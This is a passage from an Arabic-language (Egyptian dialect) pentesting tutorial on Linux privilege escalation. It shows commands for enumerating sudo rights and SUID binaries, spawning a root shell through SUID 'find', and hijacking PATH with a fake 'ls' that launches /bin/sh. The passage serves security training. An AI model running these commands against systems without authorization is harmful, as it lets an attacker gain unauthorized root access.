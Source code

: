 ### ✅ **الخلاصة بالعامية:**

لو تقدر تشغل أوامر معينة بـ `sudo`، دور على أمر ممكن يفتح لك Shell بصلاحيات **root**. استخدم `sudo -l` وشوف لو فيه حاجة تقدر تستغلها.

---

# 🔥 **2. استغلال ملفات SUID (Abusing SUID Binaries)**

## 🔹 **2.1 البحث عن ملفات SUID**

نستخدم الأمر ده للبحث عن كل الملفات اللي عليها SUID:

```bash
find / -perm -4000 2>/dev/null
```

ده هيجيب كل الملفات اللي بتشتغل بصلاحيات صاحبها (غالبًا root).

## 🔹 **2.2 استغلال ملف SUID بيشغل أوامر**

لو لقيت ملف زيه زي `find` عنده SUID، تقدر تشغله كالتالي:

```bash
/usr/bin/find . -exec /bin/bash -p \;
```

وده هيفتح لك Shell بصلاحيات root.

## 🔹 **2.3 لو ملف SUID بيستدعي أمر غير آمن**

لو عندك ملف `custom_script` وعرفت إنه بيستدعي `ls` مثلًا جواه، تقدر تعمل التالي:

```bash
echo "/bin/sh" > ls
chmod +x ls
export PATH=.:$PATH
/custom_script
```

وده هيشغل Shell بصلاحيات root لإنه بيستخدم `ls` من الـ PATH اللي انت عدلته.

## ✅ **الخلاصة بالعامية:**

لو فيه ملف عليه SUID، جرب تشوف بيعمل إيه، ولو بيشغل أوامر، ممكن تخليه يشغل Shell بصلاحيات root.

---

# 🚀 **خطوات Pentesting عملية لاستغلال sudo و SUID**

## 🔥 **1. استغلال sudo (Privilege Escalation via Sudo)**
